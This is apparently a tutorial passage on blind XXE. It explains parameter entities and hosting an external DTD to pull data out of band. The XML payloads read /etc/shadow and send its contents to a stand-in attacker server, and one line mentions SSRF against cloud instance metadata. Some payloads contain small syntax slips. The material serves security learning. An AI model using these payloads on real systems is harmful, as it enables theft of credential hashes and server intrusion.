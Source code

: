 By using XXE you can also try to launch SSRF attacks looking for instance metadata. You should always try to watch unrendered version of HTML website, because it contains much more information.

##### Using Blind XXE
Sometimes application doesn't give any feedback of XML parser. You can try to force target server to reach out to your server. Then you can monitor your server logs to download exfiltrated data.
The payload is a bit more complicated then normal, cause more often than not parsers do not allow to include external entities in different external entities. That's why Blind XXE is a bit more complicated then XXE. 
BUT DTDT definition of XML has a functionality called parametrical entities, which we can use. Parametrical entities are entities to which you can refer in other places of DTD. You declare them and refer to them with help of the % character.  Payload would look something like this:
```
<?xml version="1.0" encoding ="UTF-8">
<!DOCTYPE example [
	<!ENTITY % file SYSTEM "file:///etc/shadow">
	<!ENTITY % ent
		"<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
	%ent;
	%exfiltrate;
]>
```
https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities
In the third line we declare parameter entity with name file, which has value of /etc/shadow content. 
In the 5th line we declare parameter entity with the name ent, which contains dynamic declaration of the next parameter entity called exfiltrate.
&#x25 is % coded in hexadecimal format.
Exfiltrate entity refers to attackers server with content of /etc/shadow in URL parameter. At last DTD refers to ent to declare entity exfiltrate and then refers to exfiltrate to initialize request.

If you somehow managed to send this file you will see that it doesn't work. XD
It happens because of XML specification. XML parameter entities are treated differently in default DTD definition (ones tagged with DOCTYPE) than in external DTD (separate DTD but hosted somewhere else). In default DTD you can't refer to parameter entity in tags. So to exfiltrate the data using blind XXE you have to overcome this limitation by hosting external DTD definition on your server. Try hosting xxe.dtd file:
```
<!ENTITY % file SYSTEM "file///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
'http://server_of_attacker/?%file;'>">
%ent;
%exfiltrate;
```
Then force the target parser so that it interpretates your definition of DTD and specify it in parameter entity that you will refer to:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
	<!ENTITY % xxe SYSTEM "http://server_of_attacker/xxe.dtd">
	%xxe;
]
```
We bypass the inability of referring to parameter object inside tag, by using our own definition of DTD.
Unfortunately whole thing will break on the first \n in /etc/shadow. 
